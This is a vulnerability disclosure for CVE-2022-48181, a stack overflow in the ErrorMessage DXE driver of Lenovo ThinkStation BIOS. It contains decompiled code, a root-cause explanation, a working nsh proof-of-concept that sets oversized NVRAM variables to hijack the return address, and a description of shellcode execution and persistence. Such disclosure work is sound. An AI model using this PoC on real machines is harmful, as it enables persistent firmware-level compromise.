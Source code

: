 There is a vulnerability in the latest version of BIOS firmwares in multiple ThinkStations, which could lead to **arbitrary code execution in UEFI DXE phase**.

Take ThinkStation P320 for example, the latest version of the firmware can be downloaded here: https://download.lenovo.com/pccbbs/thinkcentre_bios/s06jy61usa.exe. This firmware is updated in 20 July, 2022.

## Vulnerability Description

This vulnerability is similar to CVE-2021-42059, the vulnerability exists due to incorrect use of the `gRT->GetVariable` service in driver `ErrorMessage`.

The root cause exists in function located offset `0x1C88` in `ErrorMessage`.

```C
__int64 sub_1C88()
{
 // ...
  DataSize[0] = 1i64;
  if ( (gRT_0->GetVariable(aBiospwdchanged, &VendorGuid, 0i64, DataSize, &Data) & 0x8000000000000000ui64) == 0i64
    && Data == 1 )
  {
    sub_42E4(2i64, 4294967071i64, 0i64, 0i64, 0i64);
    Data = 0;
    gRT_0->SetVariable(aBiospwdchanged, &VendorGuid, 7u, DataSize[0], &Data);
  }
  if ( (gRT_0->GetVariable(aBiossetupdatac, &VendorGuid, 0i64, DataSize, &v5) & 0x8000000000000000ui64) == 0i64
    && v5 == 1 )
  {
    sub_42E4(2i64, 4294967072i64, 0i64, 0i64, 0i64);
    v5 = 0;
    gRT_0->SetVariable(aBiossetupdatac, &VendorGuid, 7u, 1ui64, &v5);
  }
  if ( (gRT_0->GetVariable(aHarddiskpwdcha, &VendorGuid, 0i64, DataSize, v1) & 0x8000000000000000ui64) == 0i64
    && v1[0] == 1 )
  {
    sub_42E4(2i64, 4294967078i64, 0i64, 0i64, 0i64);
    v1[0] = 0;
    gRT_0->SetVariable(aHarddiskpwdcha, &VendorGuid, 7u, 1ui64, v1);
  }
  result = gRT_0->GetVariable(aBiosupdatenvra, &VendorGuid, 0i64, DataSize, &v3);
  //...
}
```

The above codes simply do following things:

1. Use `GetVariable` service to get the variable `BIOSPWDChangedFlag`'s value from the NVRAM.
2. If the previous step fails, which would return a negative error code, the execution flow will pass the if section, and will try to call `GetVariable` service to read the variable `BIOSSetupDataChangedFlag` instead.
3. Similarly, if the second step still fails, it will try to call `GetVariable` for the third time, this time would try to read the variable `HardDiskPwdChangedFlag`.
4. Finally, if the third step fails, it will try to read the variable `BIOSUpdateNVRAMFlag`.



**The problem is,  these calls to GetVariable share a same `DataSize` without initialization between.**

If the value of  variable `BIOSPWDChangedFlag` is a very large string, after the first call to `gRT->GetVariable`, the value of `DataSize` will be updated to the size of a large int number.

Thus the following call to `gRT->GetVariable` may cause a stack overflow if `BIOSSetupDataChangedFlag`'s size (or other variable's size) is large than the original buffer. 



## Vulnerability Analysis

We first write a PoC script, that overwrites the return address to "AAAA".

Before we run the exploit, use the Emulator build from EDK2, and simply load the driver.

![image-20220922163052070](./CVE-2022-48181.assets/image-20220922163052070.png)

The driver is loaded successfully. The PoC is written in a `nsh` script:

```nsh
setvar BIOSPWDChangedFlag -guid e102c8aa-0f10-4a0e-90a7-a6f816089bb7 -bs -rt -nv =4141414141414141414141414141414141414141414141    4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141

setvar BIOSSetupDataChangedFlag -guid e102c8aa-0f10-4a0e-90a7-a6f816089bb7 -bs -rt -nv =4141414141414141414141414141414141414141414141    4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141
```

After running the script, the variable `BIOSPWDChangedFlag` and `BIOSSetupDataChangedFlag` will be set to a large string full of "AAAA".

Using gdb to debug, we can see that when the parent function of `sub_1c88` trys to return, the return address has been overflowed to our payload.

![image-20220922164307484](./CVE-2022-48181.assets/image-20220922164307484.png)

And because the variable is stored in the NVRAM, the next time we trys to load the driver, the shellcode will still be triggered thus cause a exception.

![image-20220922164426884](./CVE-2022-48181.assets/image-20220922164426884.png)

This exception occurs because the return address of the parent function has been overwrited to AAAAAAAA

Since we can control the **RIP**, we can further write shellcode in the stack to perform a call to `ConOut->OutputString`. 

We can use rasm2 to generate the shellcode.

![image-20220922170157012](./CVE-2022-48181.assets/image-20220922170157012.png)

Run the script to set two variables and load the driver, we can see that the control flow has been hijacked and we successfully print a string.

![image-20220922170239888](./CVE-2022-48181.assets/image-20220922170239888.png)

Similarly, we can choose `HardDiskPwdChangedFlag` or `BIOSUpdateNVRAMFlag` rather than `BIOSPWDChangedFlag` and `BIOSSetupDataChangedFlag` to excute our shellcode.

In conclusion, an attack can exploit this vulnerability to **elevate privileges from ring 3 or ring 0 **(depends on the operating system) to DXE Runtime UEFI application and **execute arbitrary code**.

And a **malicious code can be installed** as a result of the vulnerability exploitation in DXE driver, which could **survive across an operating system (OS) boot process **and runtime or modify NVRAM area on SPI flash storage (to gain persistence on target platform).

## Credits

This vulnerability is found by Zichuan Li([@river-li](https://github.com/river-li)) and Fangtao Cao([@cft789](https://github.com/cft789)).
